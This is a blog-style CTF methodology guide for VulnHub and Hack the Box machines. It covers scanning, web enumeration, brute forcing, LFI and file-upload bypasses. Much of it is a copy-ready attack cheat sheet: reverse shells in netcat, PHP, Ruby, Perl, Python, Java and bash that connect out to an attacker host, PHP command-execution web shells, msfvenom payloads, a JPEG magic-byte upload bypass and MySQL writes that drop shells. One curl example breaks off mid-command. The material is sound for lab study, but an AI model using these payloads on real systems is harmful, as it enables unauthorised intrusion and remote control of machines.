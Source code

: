 ********************************
CTF Series : Vulnerable Machines
********************************

This post (Work in Progress) mark downs the learning gathered by doing the vulnerable machines provided by the VulnHub, Hack the Box and others. Once you download the virtual machine from the website and run it in VMware or Virtual Box, below steps could be followed to find the vulnerabilities.

We would like to **thank g0tm1lk** for maintaining Vulnhub and **shout-out** to each and every **author of the Vulnerable Machine/ write-ups** submitted. Thank you for providing awesome challenges to learn from and sharing your knowledge to the community!. **Thank You!!**

In solving any vulnerable machine, there are few stages:

* Finding the IP Address
* Port Scanning the machine
* Listening to the interface
* From Nothing (No-access) to Unprivileged Shell
* From Unprivileged shell to Privileged Shell

In this blog, we have mentioned, what can be done in each stages. Have also provided Tips and Tricks for solving the VMs. Vulnerability Analysis Blog in Infrastructure Pentest Series could also be referred for exploitation of any particular services (As, it provides information such as "If you have found service X (like ssh, Apache tomcat, JBoss, iscsi etc.), how they can be exploited"

Finding the IP address
======================

Netdiscover
-----------

An active/ passive arp reconnaissance tool

::

  netdiscover [options] 
  -i interface : The network interface to sniff and inject packets. 
  -r range : Scan a given range instead of auto scan.

  Example: 
  netdiscover -i eth0/wlan0/vboxnet0/vmnet1 -r 192.168.1.0/24 
	
Interface name for Virtualization Software

* Virtualbox : vboxnet 
* Vmware     : vmnet 

Nmap
----

Network exploration tool and security/ port scanner 

::

  nmap [Scan Type] [Options] {target specification} 
  -sP/-sn Ping Scan -disable port scan 

  Example: nmap -sP/-sn 192.168.1.0/24

Port Scanning
=============
	
Port scanning provides a large amount of information on open services and possible exploits that target these services. Two options

Unicornscan
-----------

A port scanner that utilizes its own userland TCP/IP stack, which allows it to run a asynchronous scans. Faster than nmap and can scan 65,535 ports in a relatively shorter time frame. 

::  

   unicornscan [options] X.X.X.X/YY:S-E 
     -i, --interface : interface name, like eth0 or fxp1, not normally required 
     -m, --mode : scan mode, tcp (syn) scan is default, U for udp T for tcp \`sf' for tcp connect scan and A for arp for -mT you can also specify tcp flags following the T like -mTsFpU for example that would send tcp syn packets with (NO Syn\|FIN\|NO Push\|URG)
     Address ranges are cidr like 1.2.3.4/8 for all of 1.?.?.?, if you omit the cidr mask then /32 is implied. 
     Port ranges are like 1-4096 with 53 only scanning one port, a for all 65k and p for 1-1024

    example: unicornscan 192.168.1.5:1-4000 gateway:a would scan port 1 - 4000 for 192.168.1.5 and all 65K ports for gateway.

Nmap
-----

Network exploration tool and security/ port scanner 

::

  nmap [Scan Type] [Options] {target specification} 

  HOST DISCOVERY:
  -sL: List Scan - simply list targets to scan 
  -sn: Ping Scan - disable port scan 
  -Pn: Treat all hosts as online -- skip host discovery

  SCAN TECHNIQUES: 
  -sS/sT/sA/sW/sM: TCP SYN/Connect()/ACK/Window/Maimon scans 
  -sU: UDP Scan -sN/sF/sX: TCP Null, FIN, and Xmas scans

  PORT SPECIFICATION: 
  -p : Only scan specified ports 
  Ex: -p22; -p1-65535; -p U:53,111,137,T:21-25,80,139,8080,S:9

  SERVICE/VERSION DETECTION: 
  -sV: Probe open ports to determine service/version info

  OUTPUT: 
  -oN/-oX/-oS/-oG : Output scan in normal, XML,Output in the three major formats at once 
  -v: Increase verbosity level (use -vv or more for greater effect)

  MISC: -6: Enable IPv6 scanning -A: Enable OS detection, version detection, script scanning, and traceroute


As unicornscan is so fast, it makes sense to use it for scanning large networks or a large number of ports. The idea is to use unicornscan to scan all ports, and make a list of those ports that are open and pass them to nmap for service detection. superkojiman has written a script for this available at `GitHub <https://github.com/superkojiman/onetwopunch>`_.

When portscanning a host, you will be presented with a list of open ports. In many cases, the port number tells you what application is running. Port 25 is usually SMTP, port 80 mostly HTTP. However, this is not always the case, and especially when dealing with proprietary protocols running on non-standard ports you will not be able to determine what application is running.

Amap - Application mapper
-------------------------

By using **amap**, we can identify if any SSL server is running on port 3445 or some oracle listener on port 23. Also, it will actually do an SSL connect if you want and then try to identify the SSL-enabled protocol! One of the VM in vulnhub was running http and https on the same port.

::

  amap -A 192.168.1.2 12380 
  amap v5.4 (www.thc.org/thc-amap) started at 2016-08-10 05:48:09 - APPLICATION MAPPING mode
  Protocol on 192.168.1.2:12380/tcp matches http 
  Protocol on 192.168.1.2:12380/tcp matches http-apache-2 
  Protocol on 192.168.1.2:12380/tcp matches ntp 
  Protocol on 192.168.1.2:12380/tcp matches ssl
  Unidentified ports: none.
  amap v5.4 finished at 2016-08-10 05:48:16


Listen to the interface
=======================

We should always listen to the local interface on which the VM is hosted such as vboxnet0 or vmnet using wireshark or tcpdump. Many VMs send data randomly, for example, In one of the VM, it does the arp scan and sends a SYN packet on the port 4444, if something is listening on that port, it send the data.

:: 

  18:02:04.096292 IP 192.168.56.101.36327 > 192.168.56.1.4444: Flags [S], seq 861815232, win 16384, options [mss 1460,nop,nop,sackOK,nop,wscale 3,nop,nop,TS val 4127458640 ecr 0], length 0
  18:02:04.096330 IP 192.168.56.1.4444 > 192.168.56.101.36327: Flags [R.], seq 0, ack 861815233, win 0, length 0
  18:02:04.098567 ARP, Request who-has 192.168.56.2 tell 192.168.56.101, length 28
  18:02:04.098584 ARP, Request who-has 192.168.56.2 tell 192.168.56.101, length 28
  18:02:04.100756 ARP, Request who-has 192.168.56.3 tell 192.168.56.101, length 28
  18:02:04.100773 ARP, Request who-has 192.168.56.3 tell 192.168.56.101, length 28
  18:02:04.096292 IP 192.168.56.101.36327 > 192.168.56.1.4444: Flags [S],

While listening on port 4444, we might receive a something like a base64 encoded string or some message.

::

  nc -lvp 4444
  listening on [any] 4444 …
  192.168.56.101: inverse host lookup failed: Unknown host
  connect to [192.168.56.1] from (UNKNOWN) [192.168.56.101] 39519
  0IHNpbGVuY2Ugc3Vycm91bmRpbmcgeW91Lg0KWW91IGxvb2sgZWFzdCwgdGhlbiBzb3V0aCwgdGhlbiB3ZXN0LCBhbGwgeW91IGNhbiBzZWUgaXMgYSBncmVhdCB3YXN0ZWxh


From Nothing to a Unprivileged Shell
====================================

At this point, you would have an idea about the different services and service version running on the system. (aka figure out what webservices such as cms or software's are running on the vulnerable machine)

searchsploit
------------
Exploit Database Archive Search

First, we need to check if the operating system is using any services which are vulnerable or the exploit is already available in the internet. For example, A vulnerable service webmin is present in one of the VM which can be exploited to extract information from the system.

::

  root@kali:~# nmap -sV -A 172.16.73.128
  **********Trimmed**************
  10000/tcp open  http        MiniServ 0.01 (Webmin httpd)
  |_http-methods: No Allow or Public header in OPTIONS response (status code 200)
  |_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
  | ndmp-version: 
  |_  ERROR: Failed to get host information from server
  **********Trimmed**************

If we search for webmin in searchsploit, we will find different exploits available for it and we just have to use the correct one based on the utility and the version matching.

::

  root@kali:~# searchsploit webmin
  **********Trimmed**************
  Description                                                                            Path
  ----------------------------------------------------------------------------------------------------------------
  Webmin < 1.290 / Usermin < 1.220 Arbitrary File Disclosure Exploit                   | /multiple/remote/1997.php
  Webmin < 1.290 / Usermin < 1.220 Arbitrary File Disclosure Exploit (perl)            | /multiple/remote/2017.pl
  Webmin 1.x HTML Email Command Execution Vulnerability                                | /cgi/webapps/24574.txt
  **********Trimmed**************

Searchsploit even provide an option to read the nmap XML file and suggest vulnerabilities ( Need nmap -sV -x xmlfile ).

::
  
  searchsploit

       --nmap     [file.xml]  Checks all results in Nmap's XML output with service version (e.g.: nmap -sV -oX file.xml).
                              Use "-v" (verbose) to try even more combinations


SecLists.Org Security Mailing List Archive
------------------------------------------

There would be some days, when you won't find vulnerability in searchsploit. We should also check the `seclists.org security mailing list google search <http://seclists.org/>`_, if someone has reported any bug for that particular software. 

Webservices
-----------

If a webserver is running on the machine, we can start with running 
 
whatweb
^^^^^^^

Utilize whatweb to find what server is running.

::

 whatweb www.example.com
 http://www.example.com [200 OK] Cookies[ASP.NET_SessionId,CMSPreferredCulture,citrix_ns_id], Country[INDIA][IN], Email[infosecurity@zmail.example.com], Google-Analytics[Universal][UA-6386XXXXX-2], HTML5, HTTPServer[Example Webserver], HttpOnly[ASP.NET_SessionId,CMSPreferredCulture,citrix_ns_id], IP[XXX.XX.XX.208], JQuery[1.11.0], Kentico-CMS, Modernizr, Script[text/javascript], Title[Welcome to Example Website ][Title element contains newline(s)!], UncommonHeaders[cteonnt-length,x-cache-control-orig,x-expires-orig], X-Frame-Options[SAMEORIGIN], X-UA-Compatible[IE=9,IE=edge]


nikto
^^^^^
nikto - Scan web server for known vulnerabilities. It would examine a web server to find potential problems and security vulnerabilities, including:

* Server and software misconfigurations
* Default files and programs
* Insecure files and programs
* Outdated servers and programs

dirb, wfuzz
^^^^^^^^^^^

Further, we can execute to find any hidden directories.

* DIRB is a Web Content Scanner. It looks for existing (and/or hidden) Web Objects. It basically works by launching a dictionary basesd attack against a web server and analizing the response.
* wfuzz - a web application bruteforcer. Wfuzz might be useful when you are looking for webpage of a certain size. For example: Let's say, when we dirb we get 50 directories. Each directory containing a image. Most of the time, now we need to figure out which image is different. Here, we would figure out what's the size of the normal image and hide that particular response with wfuzz.

.. Tip :: If the using the dirb/wfuzz wordlist doesn't result in any directories and the website contains a lot of text, it might be a good idea to use cewl to create a wordlist and utilize that as a dictionary to find hidden directories.


PUT Method
^^^^^^^^^^

Sometimes, it is also a good option to check for the various OPTIONS available on the website such as GET, PUT, DELETE etc.

Curl command can be used to check the options available:

::

  curl -X OPTIONS -v http://192.168.126.129/test/
  Trying 192.168.126.129…
  Connected to 192.168.126.129 (192.168.126.129) port 80 (#0)
  > OPTIONS /test/ HTTP/1.1
  > Host: 192.168.126.129
  > User-Agent: curl/7.47.0
  > Accept: /
  >
  < HTTP/1.1 200 OK
  < DAV: 1,2
  < MS-Author-Via: DAV
  < Allow: PROPFIND, DELETE, MKCOL, PUT, MOVE, COPY, PROPPATCH, LOCK, UNLOCK
  < Allow: OPTIONS, GET, HEAD, POST
  < Content-Length: 0
  < Date: Fri, 29 Apr 2016 09:41:19 GMT
  < Server: lighttpd/1.4.28
  <
  * Connection #0 to host 192.168.126.129 left intact

The put method allows you to upload a file. Eventually, you can upload a php file which can work as a shell. There are multiple methods to upload the file as mentioned in `Detecting and exploiting the HTTP Put Method <http://www.smeegesec.com/2014/10/detecting-and-exploiting-http-put-method.html>`_ 

The few are

* Nmap:

 ::

   nmap -p 80 --script http-put --script-args http-put.url='/uploads/rootme.php',http-put.file='/tmp/rootme.php'

* curl:

 ::

   curl --upload-file test.txt -v --url http://192.168.126.129/test/test.txt

 or

 :: 

   curl -X PUT -d '

Wordpress
^^^^^^^^^

When running wpscan, also make sure you run --enumerate u for enumerating usernames. By default wpscan doesn't run it. Also, scan for plugins

::

  wpsscan
    --url       | -u <target url>       The WordPress URL/domain to scan.
    --force     | -f                    Forces WPScan to not check if the remote site is running WordPress.
    --enumerate | -e [option(s)]        Enumeration.
    option :
    	u        usernames from id 1 to 10
    	u[10-20] usernames from id 10 to 20 (you must write [] chars)
    	p        plugins
    	vp       only vulnerable plugins
    	ap       all plugins (can take a long time)
    	tt       timthumbs
    	t        themes
    	vt       only vulnerable themes
    	at       all themes (can take a long time)
    	Multiple values are allowed : "-e tt,p" will enumerate timthumbs and plugins
    	If no option is supplied, the default is "vt,tt,u,vp"

Wordpress configuration is stored in wp-config.php. If you are able to download it, you might get username and password to database. We can also use wordpress to bruteforce password for a username 

::

  wpscan --url http://192.168.1.2 --wordlist wordlist.txt --username example_username

.. Tip :: If we have found a username and password of wordpress with admin privileges, we can upload a php meterpreter. One of the possible way is to do Appearance > Editor > Possibly edit 404 Template.

Names? Possible Usernames? Possible Passwords?
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
   
Sometimes, on visiting the webpage of the webserver (If Vulnerable machine is running any http/ https webserver), you would find possible  names of the employees working in the company. Now, it is common practice to have username based on your first/ last name. Superkojiman has written a script `namemash.py <https://gist.githubusercontent.com/superkojiman/11076951/raw/8b0d545a30fd76cb7808554b1c6e0e26bc524d51/namemash.py>`_ which could be used to create possible usernames. However, we still have a large amount of  usernames to bruteforce with passwords. Further, if the vulnerable machine is running a SMTP mail server, we can verify if the particular username exists or not and modify namemash.py to generate usernames for that pattern.

* Using metasploit smtp\_enum module: Once msfconsole is running, use auxiliary/scanner/smtp/smtp\_enum, enter the RHOSTS (target address) and USER FILE containing the list of probable user accounts.
* Using VRFY command:
* Using RCPT TO command:

Brute forcing: hydra
^^^^^^^^^^^^^^^^^^^^

::

  -l LOGIN or -L FILE login with LOGIN name, or load several logins from FILE
  -p PASS  or -P FILE try password PASS, or load several passwords from FILE
  -U        service module usage details
  -e nsr additional checks, "n" for null password, "s" try login as pass, "r" try the reverse login as pass

hydra http-post-form:

:: 

   hydra -U http-post-form

    Help for module http-post-form:
    ============================================================================
    Module http-post-form requires the page and the parameters for the web form.

    By default this module is configured to follow a maximum of 5 redirections in a row. It always gathers a new cookie from the same URL without variables. The parameters take three ":" separated values, plus optional values.

    (Note: if you need a colon in the option string as value, escape it with "\:", but do not escape a "\" with "\\".)

    Syntax:   <url>:<form parameters>:<condition string>[:<optional>[:<optional>]
    First is the page on the server to GET or POST to (URL).
    Second is the POST/GET variables (taken from either the browser, proxy, etc.
    with usernames and passwords being replaced in the "^USER^" and "^PASS^" placeholders (FORM PARAMETERS)
    Third is the string that it checks for an *invalid* login (by default)
    Invalid condition login check can be preceded by "F=", successful condition
    login check must be preceded by "S=".
    This is where most people get it wrong. You have to check the webapp what a failed string looks like and put it in this parameter!
    			The following parameters are optional:
     			C=/page/uri     to define a different page to gather initial cookies from
     			(h|H)=My-Hdr\: foo   to send a user defined HTTP header with each request
                     		^USER^ and ^PASS^ can also be put into these headers!
                     		Note: 'h' will add the user-defined header at the end
                     		regardless it's already being sent by Hydra or not.
                     		'H' will replace the value of that header if it exists, by the
                    		 one supplied by the user, or add the header at the end
    			Note that if you are going to put colons (:) in your headers you should escape them with a backslash (\).
     			All colons that are not option separators should be escaped (see the examples above and below).
     			You can specify a header without escaping the colons, but that way you will not be able to put colons
     			in the header value itself, as they will be interpreted by hydra as option separators.

    			Examples:
     			"/login.php:user=^USER^&pass=^PASS^:incorrect"
     			"/login.php:user=^USER^&pass=^PASS^&colon=colon\:escape:S=authlog=.*success"
     			"/login.php:user=^USER^&pass=^PASS^&mid=123:authlog=.*failed"
     			"/:user=^USER&pass=^PASS^:failed:H=Authorization\: Basic dT1w:H=Cookie\: sessid=aaaa:h=X-User\: ^USER^"
     			"/exchweb/bin/auth/owaauth.dll:destination=http%3A%2F%2F<target>%2Fexchange&flags=0&username=<domain>%5C^USER^&password=^PASS^&SubmitCreds=x&trusted=0:reason=:C=/exchweb"

LFI : Reading a php file
^^^^^^^^^^^^^^^^^^^^^^^^

If a website is affected by a LFI, we could use php filter to read the source code of a PHP File

:: 

  http://xqi.cc/index.php?m=php://filter/read=convert.base64-encode/resource=index.php

More information can be found at `Using PHP for file inclusion <https://www.idontplaydarts.com/2011/02/using-php-filter-for-local-file-inclusion/>`_

To test LFI, RFI, we can also use `Uniscan <http://tools.kali.org/web-applications/uniscan>`_ Uniscan is a simple Remote File Include, Local File Include and Remote Command Execution vulnerability scanner. 

::

  uniscan -h
  OPTIONS:
    -h  help
    -u  <url> example: https://www.example.com/
    -f  <file> list of url's
    -b  Uniscan go to background
    -q  Enable Directory checks
    -w  Enable File checks
    -e  Enable robots.txt and sitemap.xml check
    -d  Enable Dynamic checks
    -s  Enable Static checks
    -r  Enable Stress checks
    -i  <dork> Bing search
    -o  <dork> Google search
    -g  Web fingerprint
    -j  Server fingerprint

  usage:
  [1] perl ./uniscan.pl -u http://www.example.com/ -qweds
  [2] perl ./uniscan.pl -f sites.txt -bqweds
  [3] perl ./uniscan.pl -i uniscan
  [4] perl ./uniscan.pl -i "ip:xxx.xxx.xxx.xxx"
  [5] perl ./uniscan.pl -o "inurl:test"
  [6] perl ./uniscan.pl -u https://www.example.com/ -r

There's another tool called `fimap <https://tools.kali.org/web-applications/fimap>`_. However, it is better to check the source of uniscan for LFI and see what it is trying and try that with curl specially if cookies are required to set (in case of authenticated LFI). Personally, I tried Uniscan and for some reason cookie feature was not working and fimap only support POST parameter in cookie no GET.

Also, if we have unprivileged user shell, however don't have permission to write in /var/www/html but does have LFI, we can still write (php meterpreter shell) in /tmp or user home directory and utilize LFI to get a reverse shell.


File Upload
^^^^^^^^^^^
Let's see few examples of File Upload

* Simple File Upload - Intercepting the request in Burp/ ZAP and changing the file-extension.

 Below is the PHP code

 ::

  <?  

  function genRandomString() { 
    $length = 10; 
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz"; 
    $string = "";     

    for ($p = 0; $p < $length; $p++) { 
        $string .= $characters[mt_rand(0, strlen($characters)-1)]; 
    } 

    return $string; 
  } 

  function makeRandomPath($dir, $ext) { 
    do { 
    $path = $dir."/".genRandomString().".".$ext; 
    } while(file_exists($path)); 
    return $path; 
  } 

  function makeRandomPathFromFilename($dir, $fn) { 
    $ext = pathinfo($fn, PATHINFO_EXTENSION); 
    return makeRandomPath($dir, $ext); 
  } 

  if(array_key_exists("filename", $_POST)) { 
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]); 


        if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) { 
        echo "File is too big"; 
    } else { 
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) { 
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded"; 
        } else{ 
            echo "There was an error uploading the file, please try again!"; 
        } 
    } 
  } else { 
  ?> 
  <form enctype="multipart/form-data" action="index.php" method="POST">  
  <input type="hidden" name="MAX_FILE_SIZE" value="1000" />  
  <input type="hidden" name="filename" value="<? print genRandomString(); ?>.jpg" />  
  Choose a JPEG to upload (max 1KB):<br/>  
  <input name="uploadedfile" type="file" /><br />  
  <input type="submit" value="Upload File" />  
  </form>  
  <? } ?>   

 If we change the extension of filename tag from JPG to PHP, we may be able to execute code remotely.

 * Create a fake JPG containing php code.

  We’ll be using system() to read our password.

  ::

   echo "<?php system($_GET["cmd"]); ?>" > shell.jpg  

 * Upload JPG, intercept in Burp/ ZAP and change the extension

  ::

   <input name="filename" value="o0xn5q93si.jpg" type="hidden">  

  is changed to

  ::

  <input name="filename" value="o0xn5q93si.php" type="hidden">  

* Simple File Upload - With verifying image type

 In this the above PHP code remain almost the same apart from little addition that we check the filetype of the file uploaded

 ::

  <?php  
  ...  
  
  else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {  
        echo "File is not an image";  
    }  
  
  ...  
  
  ?> 

 Since the exif_imagetype function checks the filetype of the uploaded file. It checks the first bytes of an image are against a signature. Most filetypes such as JPEG, ZIP, TAR, etc. have a "Magic Number" at the beginning of the file to help verify its file type. So to pass the exif_imagetype function check, our file must start with the magic number of a supported image format.

 * Take a valid file (JPG or whichever file format, we are trying to bypass), take the valid hexdump of that file (Let's say first 100 bytes)

  ::

   hexdump -n 100 -e '100/1 "\\x%02X" "\n"' sunflower.jpg

   -n length         : Interpret only length bytes of Input
   -e format_string  : Specify a format string to be used for displaying data

  Example:
 
  ::

   hexdump -n 100 -e '100/1 "\\x%02X" "\n"' sunflower.jpg
   \xFF\xD8\xFF\xE0\x00\x10\x4A\x46\x49\x46\x00\x01\x01\x01\x01\x2C\x01\x2C\x00\x00\xFF\xE1\x00\x16\x45\x78\x69\x66\x00\x00\x4D\x4D\x00\x2A\x00\x00\x00\x08\x00\x00\x00\x00\x00\x00\xFF\xDB\x00\x43\x00\x05\x03\x04\x04\x04\x03\x05\x04\x04\x04\x05\x05\x05\x06\x07\x0C\x08\x07\x07\x07\x07\x0F\x0B\x0B\x09\x0C\x11\x0F\x12\x12\x11\x0F\x11\x11\x13\x16\x1C\x17\x13\x14\x1A\x15\x11\x11\x18\x21\x18\x1A\x1D\x1D\x1F
  
 * Create a file with JPG header and command shell code using python

  ::

   >>> fh = open('shell.php','w')  
   >>> fh.write('The Hexdump from above \xFF\xD8\xFF\xE0' + '<? passthru($_GET["cmd"]); ?>')  
   >>> fh.close()   

Reverse Shells
--------------

Possibly, we would have figured out some vulnerablity in the services running or misconfiguration and can have a reverse shell using netcat, php, weevely, ruby, perl, python, java, jsp, bash tcp, Xterm, Lynx, Mysql. Mostly taken from `PentestMonkey Reverse shell cheat sheet <http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet>`_  and `Reverse Shell Cheat sheet from HighOn.Coffee <https://highon.coffee/blog/reverse-shell-cheat-sheet/>`_ and some more.

netcat (nc)
^^^^^^^^^^^

* with the -e option

::

  nc -e /bin/sh 10.0.0.1 1234

* without -e option

::

  rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f

PHP
^^^

* **PHP Shell**

 We can create a new file say (shell.php) on the server containing

 :: 

   <?php system($_GET["cmd"]); ?>

 or

 :: 

   <?php echo shell_exec($_GET["cmd"]); ?>

 or

 ::

   <? passthru($_GET["cmd"]); ?>

 which can be accessed by

 :: 

  http://IP/shell.php?cmd=id

 If there's a webpage which accepts phpcode to be executed, we can use curl to urlencode the payload and run it.

 ::

  curl -G -s http://10.10.10.27/admin.php?data= --data-urlencode "html=<?php passthru('ls -lah'); ?>" -b "adminpowa=noonecares" | sed '/<html>/,/<\/html>/d'
  
  -G When used, this option will make all data specified with -d, --data, --data-binary or --data-urlencode to be used in an HTTP GET request instead of the POST request that otherwise would be used. The data will be appended to the URL with a  '?' separator.
  -data-urlencode <data> (HTTP) This posts data, similar to the other -d, --data options with the exception that this performs URL-encoding. 
  -b, --cookie <data> (HTTP) Pass the data to the HTTP server in the Cookie header. It is supposedly the data previously received from the server in a "Set-Cookie:" line.  The data should be in the format "NAME1=VALUE1; NAME2=VALUE2".
 

* **PHP Meterpreter**

 We can create a php meterpreter shell, run a exploit handler on msf, upload the payload on the server and wait for the connection.

 ::

  msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4444 -f raw -o /tmp/payload.php

* **PHP Reverse Shell**

 PHP Trick: This code assumes that the TCP connection uses file descriptor 3. This worked on my test system. If it doesn’t work, try 4, 5, 6

 :: 

  php -r '$sock=fsockopen("192.168.56.101",1337);exec("/bin/sh -i <&3 >&3 2>&3");'

 The above can be connected by listening at port 1337 by using nc

Weevely
^^^^^^^

Weevely also generates a webshell

:: 

  weevely generate password /tmp/payload.php

which can be called by

:: 

  weevely http://192.168.1.2/location_of_payload password

However, it wasn't as useful as php meterpreter or reverse shell.


Ruby
^^^^

:: 

  ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

Perl
^^^^

.. code-block :: bash 

  perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

Python
^^^^^^

.. code-block :: bash  

  python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

Java
^^^^

.. code-block :: bash 

  r = Runtime.getRuntime()
  p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
  p.waitFor()

JSP
^^^

.. code-block :: bash 

   msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.110.129 LPORT=4444 -f war > runme.war

Bash /dev/tcp
^^^^^^^^^^^^^

If a server is listening on a port:

::

  nc -lvp port

then we can use the below to connect

::
   
  /bin/bash -i >&/dev/tcp/IP/Port 0>&1


XTerm
^^^^^

One of the simplest forms of reverse shell is an xterm session. The following command should be run on the server. It will try to connect back to you (10.0.0.1) on TCP port 6001.

.. code-block :: bash 

  xterm -display 10.0.0.1:1


To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001). One way to do this is with Xnest (to be run on your system):

::
 
   Xnest :1

You’ll need to authorize the target to connect to you (command also run on your host):

::

  xhost +targetip

Lynx
^^^^

Obtain an interactive shell through lynx: It is possible to obtain an interactive shell via special LYNXDOWNLOAD URLs. This is a big security hole for sites that use lynx "guest accounts" and other public services. More details `LynxShell <http://insecure.org/sploits/lynx.download.html>`_ 

When you start up a lynx client session, you can hit "g" (for Goto) and then enter the following URL:

:: 

  URL to open: LYNXDOWNLOAD://Method=-1/File=/dev/null;/bin/sh;/SugFile=/dev/null

MYSQL
^^^^^

* If we have MYSQL Shell via sqlmap or phpmyadmin, we can use mysql outfile/ dumpfile function to upload a shell.

 :: 

   echo -n "<?php phpinfo(); ?>" | xxd -ps 3c3f70687020706870696e666f28293b203f3e
   select 0x3c3f70687020706870696e666f28293b203f3e into outfile "/var/www/html/blogblog/wp-content/uploads/phpinfo.php"

 or 

 ::
 
  SELECT "<?php passthru($_GET['cmd']); ?>" into dumpfile '/var/www/html/shell.php';

* If you have sql-shell from sqlmap/ phpmyadmin, we can use

 :: 
	
   select load_file('/etc/passwd');

Spawning a TTY Shell
--------------------

Once we have reverse shell, we need a full TTY session by using either Python, sh, perl, ruby, lua, IRB. `Spawning a TTY Shell <https://netsec.ws/?p=337>`_ and `Post-Exploitation Without A TTY <http://pentestmonkey.net/blog/post-exploitation-without-a-tty>`_ has provided multiple ways to get a tty shell

Python
^^^^^^

.. code-block :: bash 

  python -c 'import pty; pty.spawn("/bin/sh")'

or

.. code-block :: bash

  python -c 'import pty; pty.spawn("/bin/bash")'

.. code-block :: bash

  python -c 'import os; os.system("/bin/bash")'

sh
^^

.. code-block :: bash

  /bin/sh -i

Perl
^^^^

.. code-block :: bash 

  perl -e 'exec "/bin/sh";'
